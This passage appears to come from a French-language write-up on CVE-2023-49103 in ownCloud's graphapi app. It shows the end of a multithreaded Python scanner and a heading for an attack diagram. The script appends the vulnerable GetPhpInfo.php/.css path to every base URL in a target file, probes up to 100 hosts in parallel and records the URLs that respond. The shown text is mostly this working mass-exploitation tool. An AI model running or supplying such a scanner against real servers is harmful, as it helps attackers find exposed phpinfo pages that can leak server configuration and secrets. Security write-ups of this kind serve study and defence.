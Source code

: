 ```py
                print(Fore.YELLOW + f"Error processing {url}: {e}" + Style.RESET_ALL)
            finally:
                url_queue.task_done()
                update_bar()  # Update the progress bar

def process_file(file_path, output_file):
    urls = []
    with open(file_path, 'r') as file:
        for line in file:
            base_url = line.strip()
            # Append both URL variants for each base URL
            urls.append(base_url + "/owncloud/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css")
            urls.append(base_url + "/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css")

    url_queue = queue.Queue()
    num_workers = min(100, len(urls))  # Adjust based on your system's capabilities

    with alive_bar(len(urls), bar='smooth', enrich_print=False) as bar:
        with ThreadPoolExecutor(max_workers=num_workers) as executor:
            # Start worker threads
            for _ in range(num_workers):
                executor.submit(process_urls, url_queue, output_file, bar)

            # Read URLs and add them to the queue
            for url in urls:
                url_queue.put(url)

            # Add sentinel values to indicate completion
            for _ in range(num_workers):
                url_queue.put(None)

            url_queue.join()  # Wait for all tasks to be completed


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some URLs.')
    parser.add_argument('-t', '--target', required=True, help='Input file with URLs')
    parser.add_argument('-o', '--output', required=True, help='Output file for valid URLs')

    args = parser.parse_args()

    process_file(args.target, args.output)
```

### Schéma

Ci-dessous un schéma récapitulatif de l'attaque :

![Alt text](/images/pwncloud/CVE-2023-49103.gif)
